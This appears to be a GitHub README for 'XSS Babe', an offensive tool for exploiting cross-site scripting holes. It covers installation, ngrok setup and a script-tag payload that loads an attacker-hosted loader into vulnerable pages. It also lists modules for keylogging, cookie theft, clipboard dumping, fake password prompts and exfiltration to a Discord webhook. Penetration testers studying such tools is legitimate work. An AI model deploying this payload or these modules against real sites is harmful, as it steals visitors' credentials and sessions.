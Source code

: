 # XSS BABE

XSS Babe is a tool for exploiting XSS vulnerabilities in real time. 
It automates delivery, tracking, and payload interaction through a live command-line interface. 


## ⚠️ Legal Disclaimer

This tool is for educational and ethical penetration testing only. 
Do not use it against targets without permission. 
You are solely responsible for how you use this software.

---

## Installation

### 1. Clone the Repo

```bash
git clone https://github.com/ekomsSavior/XSS-BABE.git
cd XSS-BABE
```

### 2. Install Dependencies

```bash
sudo apt update
sudo apt install python3 unzip -y
sudo apt install python3-flask python3-pyngrok -y
```

### 3. Install Ngrok

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

## Ngrok Setup

1. Sign up at https://ngrok.com/signup  
2. Copy your auth token from: https://dashboard.ngrok.com/get-started/setup  
3. Add your token:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

## Usage

```bash
python3 xss_babe_cli.py
```

### What It Does:
- Prompts for a target XSS URL (like: `https://vuln.site/?q=`)
- Auto-launches the Flask server and Ngrok
- Injects `x.js` loader into your payload
- Displays a live menu of attack modules
- Logs all browser events and saves session results in `session_reports/`

---

## Example Payload

Use the Ngrok URL + this payload in the vulnerable input:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

---

## Modules List

| Module                   | Description                                              | Status        |
|--------------------------|----------------------------------------------------------|--------------|
| `keylogger`              | Records keystrokes in real time                          |  Live        |
| `fake_login`             | Displays fake login form for credential capture          |  Coming Soon |
| `clipboard`              | Dumps contents of the victim’s clipboard                 |  Live        |
| `auto_cookie_steal`      | Extracts document cookies silently                       |  Live        |
| `browser_history`        | Reads browser history if accessible                      |  Coming Soon |
| `fake_download`          | Prompts a fake download and logs the click               |  Live        |
| `fingerprint`            | Collects user-agent, screen size, timezone               |  Coming Soon |
| `screenshot`             | Captures a visual screenshot using HTML2Canvas           |  Coming Soon |
| `recon`                  | Loads iframe ports and resources for open recon          |  Coming Soon |
| `cross_tab_spy`          | Detects and tracks multiple open tabs                    |  Coming Soon |
| `cross_tab_messaging_spy`| Reports other open tabs and focus changes                |  Live        |
| `discord_logger`         | Sends a page load alert to a Discord webhook             |  Live        |
| `password_bait`          | Displays a fake password prompt to capture credentials   |  Live        |

---

## File Structure

- `xss_babe/`
  - `xss_babe_cli.py` – Main interactive CLI
  - `server.py` – Flask server for payload delivery
  - `requirements.txt` – Python dependencies
  - `static/`
    - `x.js` – XSS loader script
    - `modules/`
      - `auto_cookie_steal.js`
      - `clipboard.js`
      - `cross_tab_messaging_spy.js`
      - `discord_logger.js`
      - `fake_download.js`
      - `history_stealer.js`
      - `keylogger.js`
      - `password_bait.js`
      - `fake_login.js` *(coming soon)*
      - `browser_history.js` *(coming soon)*
      - `fingerprint.js` *(coming soon)*
      - `screenshot.js` *(coming soon)*
      - `recon.js` *(coming soon)*
      - `cross_tab_spy.js` *(coming soon)*
  - `utils/`
    - `save_to_txt.py` – Helper to save session info
  - `session_reports/`
    - `[timestamp].txt` – Auto-generated session logs

---

## Logs and Reporting

All session output (payloads used, timestamps, logs) are saved to:

```
session_reports/YYYY-MM-DD-HHMMSS.txt
```

---

## Stay Ethical

Use XSS Babe only in lab environments or on targets you own or have permission to test. 

---

##  Developed by [ekomsSavior](https://github.com/ekomsSavior)
